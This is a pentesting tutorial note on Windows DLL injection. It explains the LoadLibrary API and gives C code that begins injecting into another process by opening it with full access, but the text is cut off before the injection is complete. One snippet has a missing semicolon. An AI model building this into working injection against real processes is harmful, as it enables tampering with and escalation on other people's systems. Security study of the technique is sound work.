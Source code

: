 ```yaml
---
title: DLL Injection
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - windows
  - privilege
---
```

# DLL Injectionç

DLL injection is a method that involves inserting a piece of code, structured as a Dynamic Link Library (DLL), into a running process. 

There are several different methods for actually executing a DLL injection.

## LoadLibrary

The `LoadLibrary` API is a function provided by the Windows operating system that loads a Dynamic Link Library (DLL) into the current process’s memory and returns a handle that can be used to get the addresses of functions within the DLL.

This example shows how `LoadLibrary` can be used to load a DLL into the current process legitimately:

```c
#include <windows.h>
#include <stdio.h>

int main() {
    // Using LoadLibrary to load a DLL into the current process
    HMODULE hModule = LoadLibrary("example.dll");
    if (hModule == NULL) {
        printf("Failed to load example.dll\n");
        return -1;
    }
    printf("Successfully loaded example.dll\n");

    return 0;
}
```


This other example illustrates the use of LoadLibrary for DLL injection. This process involves allocating memory within the target process for the DLL path and then initiating a remote thread that begins at LoadLibrary and directs towards the DLL path: 

```c
#include <windows.h>
#include <stdio.h>

int main() {
    // Using LoadLibrary for DLL injection
    // First, we need to get a handle to the target process
    DWORD targetProcessId = 123456 // The ID of the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetProcessId);
    if (hProcess == NULL) {
        printf("Failed to open target process\n");
        return -1;
    }

    // Next, we need to allocate memory in the target process for the DLL path
```